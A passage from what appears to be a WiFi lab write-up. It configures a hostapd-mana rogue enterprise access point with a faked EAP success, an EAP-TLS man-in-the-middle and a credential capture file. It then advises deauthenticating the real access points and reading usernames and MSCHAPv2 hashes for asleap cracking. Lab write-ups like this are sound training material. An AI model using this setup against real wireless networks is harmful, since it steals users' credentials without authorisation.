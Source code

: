 ```conf
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1

```
It is important to check the the following items carefully. The path to the files should exist, otherwise it won't work.
- SSID should be the name of our target
- Certificate paths
	- Location where we saved the adjusted the certificates
		- ca_cert=/etc/freeradius/3.0/certs/ca.pem
		- server_cert=/etc/freeradius/3.0/certs/server.pem
		- private_key=/etc/freeradius/3.0/certs/server.key
- EAP user file
	- eap_user_file=/etc/hostapd-mana/mana.eap_user
- **Store captured credentials in file**
	- `mana_credout=/tmp/hostapd.credout`

Create a `mana.eap_user` file.
```bash
sudo nano /etc/hostapd-mana/mana.eap_user
```
The content of `/etc/hostapd-mana/mana.eap_user` should look like this:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

Start hostapd-mana with custom configuration file
```bash
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231018145241.png){: width="700" height="400" }

The signal of our Rogue Access Point should be stronger then the other Access Points. If there are no workstations connecting to our Rogue Access Point we can launch a deauthentication attack against the AP(s) from our target network. Workstations will try to connect to another AP and this will probably our Rogue Access Point in the end. When a workstation connects to our Rogue Access Point we should look for a few things. 
Check the line:
```
MANA EAP Identity Phase <NR>: <USERNAME>
```
for the username.

Check the line(s):
```
MANA EAP EAP-MSCHAPV2 ASLEAP user=<USERNAME> | asleap -C <value> - R <value>
```
